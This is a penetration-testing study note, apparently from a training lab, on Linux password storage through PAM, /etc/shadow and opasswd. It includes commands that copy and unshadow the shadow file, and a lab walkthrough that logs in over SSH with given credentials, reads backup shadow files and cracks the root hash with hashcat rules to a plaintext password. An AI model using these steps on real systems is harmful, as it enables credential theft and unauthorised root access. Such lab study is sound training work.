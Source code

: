 ### Passwd, Shadow & Opasswd

* PAM
  * Pluggable Authentication Modules
  * /usr/lib/x86\_x64-linux-gnu/security/
  * if you want to change PW in Linux -> PAM is called and stores and handles the info
  * standard files that are read, managed and updated:
    * /etc/passwd
    * /etc/shadow
  * can have other service modules, such as LDAP, mount, Kerberos...
*   Passwd file

    <figure><img src=".gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>


* Shadow file

<figure><img src=".gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

* Opasswd
  * old PW stored here
  * /etc/security/opasswd
*   UNSHADOW

    * sudo cp /etc/shadow /tmp/shadow.bak
    * unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
    * hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked



#### Questions

**Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.**

* ssh will@10.129.115.79
  * PW: TUqr7QfLTLhruhVbCP
* ls -la
* cd .backups
* ls -la
* cat passwd.bak
* cat shadow.bak
  * root HASH here
    * $6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.
      * nano hash.txt
* Decrypt Hash
  * generate mutated list
    * hashcat --force password.list -r custom.rule --stdout | sort -u > mut\_password.list
  * hashcat -m 1800 hash.txt mut\_password.list
    * <mark style="color:green;">**J0rd@n5**</mark>
